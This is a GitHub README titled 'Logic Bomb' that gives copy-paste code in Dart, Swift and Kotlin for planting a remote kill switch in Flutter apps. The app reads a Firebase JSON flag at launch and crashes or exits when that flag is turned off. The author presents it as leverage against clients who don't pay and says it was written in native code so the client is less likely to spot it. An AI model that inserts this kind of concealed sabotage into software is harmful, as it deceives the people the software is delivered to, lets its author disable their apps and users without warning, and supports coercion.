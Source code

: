 # Logic Bomb

## Control app crashing using Firebase or REST API ( Dart, Kotlin and Swift ).
### Do not abuse this code.
I am not responsible for any misuse of this code.
### Hom many times did you work hard and didn't get paid ? 
This code was created to protect myself from clients. A client may come to you wants to complete a project, when yuo upload the app on stores, he disappears and not pays for you.

### Code is written in :
- #### Dart
- #### Swift
- #### Kotlin

I made it in native to make the code more invisible if he got the source code.

## Implementation Time 

## Dart
in your main file 
import 
```
import 'package:dio/dio.dart';
import 'dart:io';
```
in main file paste this function
```
void plant() async {
  try {
    final result = await Dio().get('$HERE_IS_YOUR_FIREBASE_PROJECT_LINK/app.json');
    final data = result.data;
    if (Platform.isAndroid && !data['android']) {
      throw Exception();
    } else if (Platform.isIOS && !data['ios']) {
      throw Exception();
    }
  } catch (_) {
    exit(0);
  }
}
```
in main function plant your bomb
```
void main() {
  plant();
  runApp(MyApp());
}
```

## Swift
ios -> Runner -> AppDelegate.swift
then put this code

 ```
import UIKit
import Flutter

@UIApplicationMain
@objc class AppDelegate: FlutterAppDelegate {
  override func application(
    _ application: UIApplication,
    didFinishLaunchingWithOptions launchOptions: [UIApplication.LaunchOptionsKey: Any]?
  ) -> Bool {
    GeneratedPluginRegistrant.register(with: self)
    plant()
    return super.application(application, didFinishLaunchingWithOptions: launchOptions)
  }

  func plant() {
          let api = "$HERE_IS_YOUR_FIREBASE_PROJECT_LINK/app.json"
          let url = URL(string: api)!
          do {
              let data = try Data(contentsOf: url)
              let json = try JSONSerialization.jsonObject(with: data) as! [String:Any]
              if (json["ios"] as! Int == 0) {
                   fatalError()
              }
          } catch {
              fatalError()
          }
      }

}
 ```

## Android
in android -> app -> src -> main -> AndroidManifest.xml
put Internet Permission
```
    <uses-permission android:name="android.permission.INTERNET" />
```
then go to android -> app -> src -> main -> kotlin 
beside MainActivity
create new JavaClass Named Bomb and paste this code inside
```
package $HERE_IS_YOUR_APP_PACKAGE_NAME;

import java.io.*;
import java.net.HttpURLConnection;
import java.net.URL;

public class Bomb {

    void plant() throws IOException {
        Thread thread = new Thread(new Runnable() {

            @Override
            public void run() {
                try {
                    URL url = new URL("$HERE_IS_YOUR_FIREBASE_PROJECT_LINK/app.json");
                    HttpURLConnection urlConnection = (HttpURLConnection) url.openConnection();
                    urlConnection.setRequestMethod("GET");
                    BufferedReader in = new BufferedReader(new InputStreamReader(urlConnection.getInputStream()));
                    StringBuffer sb = new StringBuffer();
                    String line;
                    while ((line = in.readLine()) != null) {
                        sb.append(line);
                    }
                    in.close();
                    if (sb.toString().contains("\"android\":false")) {
                        throw new RuntimeException("");
                    }
                } catch (Exception e) {
                    throw new RuntimeException("");
                }
            }
        });

        thread.start();
    }

}
```
and in MainActivity file
paste this code 
```
package $HERE_IS_YOUR_APP_PACKAGE_NAME

import io.flutter.embedding.android.FlutterActivity
import io.flutter.embedding.engine.FlutterEngine

class MainActivity: FlutterActivity() {
    override fun configureFlutterEngine(flutterEngine: FlutterEngine) {
        super.configureFlutterEngine(flutterEngine)
        Bomb().plant()
    }

}
```

## Firebase Setup :
To get your firebase project link follow these Screenshots and don't miss any step OR it won't work.
## 1
![](firebase_setup_screenshots/1.png)
## 2
![](firebase_setup_screenshots/2.png)
## 3
![](firebase_setup_screenshots/3.png)
## 4
![](firebase_setup_screenshots/4.png)
## 5
![](firebase_setup_screenshots/5.png)
## 6
![](firebase_setup_screenshots/6.png)
## 7
![](firebase_setup_screenshots/7.png)
## 8
![](firebase_setup_screenshots/8.png)

## Example : 
```
https://logic-bomb-896dd-default-rtdb.firebaseio.com/app.json
```

